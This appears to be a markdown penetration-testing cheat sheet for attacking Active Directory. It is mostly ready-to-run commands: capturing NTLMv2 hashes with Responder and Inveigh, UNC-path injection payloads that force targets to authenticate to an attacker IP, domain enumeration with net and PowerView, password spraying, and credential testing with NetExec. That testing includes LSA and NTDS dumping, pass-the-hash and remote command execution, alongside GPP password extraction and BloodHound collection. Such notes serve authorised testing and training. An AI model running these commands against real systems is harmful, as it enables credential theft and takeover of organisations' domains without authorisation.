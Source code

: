 # 🔭 AD Enumeration

## Capturing NTLMv2 Hashes

!!! info
    🐈‍⬛ Hashcat mode -> 5600

> <https://github.com/Kevin-Robertson/Inveigh>

```shell
# responder
sudo responder -I eth0

# smb server
impacket-smbserver -smb2support <sharename> $(pwd)

# windows privileged
inveigh.exe -httpd <ip>
```

### UNC Attack

```shell
# from inside the machine (shortcut file, shell or web attack)
dir \\<IP>\test
Content-Disposition: form-data; name="myFile"; filename="\\\\<ip>\\test"
curl http://<url>/index.php?view=//10.10.14.13/asdf
```

## Living off the Land

```shell
# list domain users
net user /domain
net user /domain <username>
# list domain groups
net group /domain
net group /domain <groupname>

# add user to group
net group <groupname> <username> /add /domain

# list a share
ls \\dc1.corp.com\sysvol\corp.com\

# password policies
net accounts /domain

# get current domain name
[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
```

## PowerView

```shell
# if scripts can be imported
powershell -ep bypass
Import-Module .\PowerView.ps1

# domain info
Get-NetDomain
# list users
Get-NetUser
Get-NetUser | select cn
Get-NetUser <usercn>
# list groups
Get-NetGroup
Get-NetGroup | select cn
Get-NetGroup <groupcn> | select member
# list computers
Get-NetComputer
Get-NetComputer | select operatingsystem,dnshostname

# find local admin access under current user
Find-LocalAdminAccess
# see who is logged on
Get-NetSession -ComputerName <computer>
# if fails, use psloggedon.exe, needs Remote Registry active on host
PsLoggedon.exe \\<computer>

# list spn
Get-NetUser -SPN | select samaccountname,serviceprincipalname
# or
setspn -L iis_service
# list Access Control Entries (ACE) of user
Get-ObjectAcl -Identity <user>
# convert SID to name
Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-1104

# filter by perm GenericAll for a specific group
Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights

# find AS-REP Roastable accounts
Get-DomainUser -PreauthNotRequired -verbose
# find kerberoastable accounts
Get-NetUser -SPN | select serviceprincipalname

# find shares
Find-DomainShare
```

## Password Spraying

> <https://github.com/ropnop/kerbrute>

```shell
# nxc or cme
nxc smb <ip> -u users.txt -p <password> -d <domain> --continue-on-success

# kerbrute
kerbrute passwordspray -d <domain> users.txt <password> --dc <dc_ip>
```

## User Enumeration

> <https://github.com/lkarlslund/ldapnomnom>

```shell
# enum users via Kerberos
kerbrute enumusers --dc <ip> -d <domain> <userlist>

ldapnomnom -dnsdomain <domain> -server <dc-ip> -input <wordlist>

nxc smb <ip> -u <user> -p <pass> --users

# windows
.\Rubeus.exe brute /users:<userlist> /passwords:<wordlist> /domain:<domain>
```

## Credential Testing

!!! tip
    🍪 NetExec

    - `[+]` is valid credentials
    - `[pwned!]` is valid credential with privileges

!!! tip
    🍪 Some users could have their username as their password

```shell
# nxc
# check valid domain credentials
nxc smb <ip> -u <user> -p <password> -d <domain>
# check valid local credentials
nxc smb <ip> -u <user> -p <password> --local-auth

# check in a range of machines
nxc smb x.x.x.70-76 -u <user> -p <password> -d <domain> --continue-on-success

# with a userlist and wordlist
nxc smb <ip> -u <userlist> -p <wordlist> -d <domain> --continue-on-success

# list shares, users or all
nxc smb <ip> -u <user> -p <pass> -d <domain> --shares
nxc smb <ip> -u <user> -p <pass> -d <domain> --users
nxc smb <ip> -u <user> -p <pass> -d <domain> --all

# dump lsa or ntds
nxc smb <ip> -u <user> -p <pass> --lsa
nxc smb <ip> -u <user> -p <pass> --ntds

# enumerate users by rid
nxc smb <ip> -u 'guest' -p '' --rid-brute

# execute a command
nxc smb <ip> -u <user> -p <pass> -x <command>

# PTH
nxc smb <ip> -u <user> -H <hash> 

# kerbrute
kerbrute brute -d <domain> -u <user> -p <wordlist>
```

## GPP password in SYSVOL policy

```shell
# manual
grep -inr "cpassword" . --include=*.xml

# GPPPassword
# with NULL session
impacket-Get-GPPPassword -no-pass <ip>
# with creds
impacket-Get-GPPPassword <domain>/<user>:<pass>@<ip>
# parse a local file
impacket-Get-GPPPassword -xmlfile <Policy>.xml local

# nxc
nxc smb <ip> -u <user> -p <pass> -d <domain> -M gpp_password
```

Decrypt the password

```shell
gpp-decrypt <pass>
```

## BloodHound

```shell
sudo neo4j start
bloodhound
# upload collected zip 
```

### SharpHound

!!! warning
    For Bloodhound legacy (4.3.1) compatibility, use sharphound [v1.1.1.1](https://github.com/SpecterOps/SharpHound/releases/tag/v1.1.1)

```shell
.\SharpHound.exe -c All

Import-Module .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -OutputDirectory . -OutputPrefix "dom audit"
```

### bloodhound-python

```shell
bloodhound-python -c All -u <user> -p <pass> -d <domain> -dc <dc_hostname> -ns <ns_ip> --zip 
```

## LDAPDomainDump

```shell
ldapdomaindump -u '<domain>\<user>' -p '<pass>' <ip>
```

## Automated Enumeration

### ADpeas

> <https://github.com/61106960/adPEAS>

```shell
Import-Module .\adPEAS.ps1
Invoke-adPEAS
```
